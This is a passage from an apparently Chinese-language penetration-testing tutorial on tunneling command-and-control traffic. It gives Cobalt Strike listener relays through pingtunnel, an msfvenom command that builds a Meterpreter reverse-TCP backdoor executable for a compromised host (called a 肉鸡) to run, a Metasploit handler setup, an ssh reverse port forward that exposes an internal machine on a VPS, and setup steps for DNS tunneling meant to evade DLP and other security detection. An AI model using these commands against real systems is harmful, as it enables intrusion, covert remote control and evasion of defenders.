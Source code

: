 监听器1：127.0.0.1 5555
监听器2：192.168.207.128 6666

**而后，利用cs生成监听器1的Stager后门肉鸡执行。**即可完成，将tcp包发送至127.0.0.1的5555号端口，再借由pingtunnel转发至**192.168.207.128**的6666号端口，然后监听器2就会被触发。

### msf

**生成后门：**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=5555 -f exe > yuan.exe
```

**MSF启动监听：**

```bash
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 2221
exploit 
```

## ssh

可以在攻击机上输入如下命令，将本地的192.168.11.132（内网其他机子的ip）的80端口映射到远端vps（75.24.165.197）的1234端口。

```bash
ssh -CfNg -R 1234:192.168.11.132:80 ubuntu@175.24.165.197
```

然后，在vps上访问本地的1234端口，即可看到192.168.11.132:80下的内容。

```bash
curl http://127.0.0.1:1234
```

## DNS隧道

通过DNS协议进行通信，使得流量更加隐秘，躲避agent/DLP等安全设备的检测，实现相对隐秘的命令控制。因此，本部分讲介绍如何利用DNS协议来搭建隧道！

### 准备工作

我们需要准备好一个经过备案的域名！ 本文使用的是yuangogo.com（国内的需要实名认证！）

![截图](f6aab2b9a518d1b699c183dd2ed78835.png)

用一台公网的Linux系统的VPS作为C&C服务器(注意：VPS的53端口一定要开放)，并准备好一个可以配置的域名(这里我们假设是hack.com)。然后，去配置域名的记录。首先创建记录A，将自己的域名 www.hack.com 解析到VPS服务器地址。然后，创建NS记录，将 test.hack.com 指向 www.hack.com.

- 第一条A类解析是在告诉域名系统，yuangogo.com 的IP地址是 xx.xx.xx.xx 
- 第二条NS解析是在告诉域名系统，想要知道 ns1.yuangogo.com的IP地址，就去问 yuangogo.com 

![截图](ea1f9187852ddfb6ddb1335410bcfc3b.png)
